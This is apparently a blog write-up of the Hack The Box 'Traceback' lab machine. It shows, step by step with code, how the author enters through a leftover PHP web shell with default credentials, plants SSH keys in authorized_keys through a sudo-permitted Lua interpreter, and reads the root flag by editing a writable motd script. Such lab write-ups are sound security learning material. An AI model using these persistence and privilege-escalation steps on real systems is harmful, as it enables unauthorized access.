 ```yaml
---
layout: post
title:  "HTB Traceback Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Traceback, Retired Linux Easy Box
tags: HTB_Walkthrough SSH pspy
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
# Nmap 7.80 scan initiated Sat Mar 14 16:47:34 2020 as: nmap -sV -sC -Pn -p- -oA traceback.htb.nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.041s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 14 16:48:11 2020 -- 1 IP address (1 host up) scanned in 37.02 seconds
{% endhighlight %}

Once I found what was open, I began performing banner grabbing. I found that `XH4H` was listed all over the page:

{% highlight bash linenos %}
ssh xh4h@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
{% endhighlight %}

This led to nothing. So, checking out http, there was a note in the soure code:

{% highlight bash linenos %}
<!--Some of the best web shells that you might need ;)-->
{% endhighlight %}

Performing some OSINT, XH4H has a GitHub and forked a project over with the best php web shells:

https://github.com/Xh4H/Web-Shells

Once I had that, I check to see if any were on the website. One was! http://traceback.htb/smevk.php. Once I logged in to the webshell with the default `admin:admin` credentials, I then found that user webadmin had ssh, and an `authorized_keys` file I could write to. I wrote my `id_rsa.pub` to the authorized keys, and logged in with ssh.

Once logged in, I found with `sudo -l`, I can run `/home/sysadmin/luvit` as sysadmin with no password. Doing some googling, luvit is a lua driven tool to learn Lua. Luvit can also run .lua files. So, I created a Lua file, to again write my id_rsa.pub to the `authorized_keys` file:

{% highlight bash linenos %}
local test = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
test:write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDORSNFXHRLa8rC5DieG5EFcwzHa4daADnRHCN3mHIrqujoJSOeb7lNkSg0zPRd2oAJHbZx+t4YsG1fssh1bAl/FUE62D+r+0ZpD8137GipGEflnUobWhgtpez8bf8CWrvFqnVSg4KhQ5qgVLckzJRWxHbCME49BKUi8EEtZv3yEviNuKkOSQsn6IWfoPlW0bNG0gZutltE1cTGLCEsHSYKIEjyZRpSfGAywbwWagpAlJrMscOzCet19Zswc33yNZtLtUPqxfqmmVG08PV8W7jqOQeVKak= root@beast\n")
test:close()
{% endhighlight %}

And then ran that file:

{% highlight bash linenos %}
sudo -u sysadmin /home/sysadmin/luvit blah.lua
{% endhighlight %}

Once I ran that, I then logged in as sysadmin over SSH and owned user:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ ls
luvit  user.txt
$ cat user.txt
xxxxxxxxxxxxxxxxxxxx33ffbf0cceb2c46020
{% endhighlight %}

Enumerating, looking at pspy, I found that there is a running process every 30 seconds:

{% highlight bash linenos %}
/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

{% endhighlight %}
Looking in /etc/update-motd.d/ I see I have write access to 00-header, which displays the welcome message! Towards the bottom, I added the following to /etc/update-motd.d/00-header:

{% highlight bash linenos %}
[ -r /etc/lsb-release ] && . /etc/lsb-release

cat /root/root.txt
echo "\nWelcome to Xh4H land \n"
{% endhighlight %}

I then quickly logged in, and got the root flag:

{% highlight bash linenos %}
ssh -i /root/.ssh/id_rsa sysadmin@traceback.htb
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
xxxxxxxxxxxxxxxx4f6f56d822a357585d6
{% endhighlight %}
